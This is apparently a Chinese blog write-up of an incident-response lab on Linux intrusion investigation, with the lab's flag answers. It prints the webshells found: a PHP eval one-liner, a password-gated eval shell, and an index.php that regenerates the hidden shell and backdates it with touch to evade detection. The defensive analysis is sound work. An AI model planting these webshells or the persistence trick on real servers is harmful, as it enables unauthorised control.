 ```yaml
---
title: 应急响应-linux入侵排查
date: 2024-11-26 22:16:17
permalink: /pages/29c781/
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# 应急响应-linux入侵排查

检查任务

- 1.web目录存在木马，请找到木马的密码提交

- 2.服务器疑似存在不死马，请找到不死马的密码提交

- 3.不死马是通过哪个文件生成的，请提交文件名

- 4.黑客留下了木马文件，请找出黑客的服务器ip提交

- 5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交

## web目录存在木马，请找到木马的密码提交

连接上服务器ls一堆文件，打包下来扔D盾

```bash
cd /var/www/html
tar -cvzf web.tar.gz  /var/www/html .
```

本地scp下载下来扔d盾

```bash
scp root@ip:/var/www/html/web.tar.gz .
```

![1](https://the0n3.top/medias/xjruqin/1.png)

查看源码，可以看出

- 1.php是一个php一句话木马，密码是1
- .shell.php是一个隐藏木马，由index.php生成，密码加密后md5值是5d41402abc4b2a76b9719d911017c592
- index.php是生成隐藏木马.php的脚本并使用touch命令修改了生成时间躲避查杀

1.php

```php
<?php eval($_POST[1]);?>
```

.shell.php

```php
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

index.php

```php
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
	$path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
	Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
	Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d "2021-01-01 00:00:01" .shell.php');
usleep(3000);
?>
```

第一个flag是flag{1}

## 服务器疑似存在不死马，请找到不死马的密码提交

`.shell.php`是隐藏木马，同时使用touch命令修改了创建时间躲避查杀，那么就他了

md5解密拿到来密码

![2](https://the0n3.top/medias/xjruqin/2.png)

flag{hello}

## 不死马是通过哪个文件生成的，请提交文件名

flag{index.php}


## 黑客留下了木马文件，请找出黑客的服务器ip，端口

在解压的文件里有一个elf的linux可执行文件，扔进微步云沙箱在线分析一下

![3](https://the0n3.top/medias/xjruqin/3.png)

在云沙箱分析的网络行为检测里，可以看到后门连接的ip及端口

dst：目标ip
dport：目标端口

![4](https://the0n3.top/medias/xjruqin/4.png)

flag{10.11.55.21}

flag{3333}

> 又学到了，云沙箱分析，好工具

参考：

- [第一章-应急响应-Linux入侵排查-玄机靶场](https://lexsd6.github.io/2024/07/10/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5-%E7%8E%84%E6%9C%BA%E9%9D%B6%E5%9C%BA/)
- [玄机应急响应 - 第一章 - 应急响应 - Linux 入侵排查](http://www.sword-blogs.com/2024/04/11/%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/%E7%8E%84%E6%9C%BA%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/%E7%AC%AC%E4%B8%80%E7%AB%A0%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/Linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/)
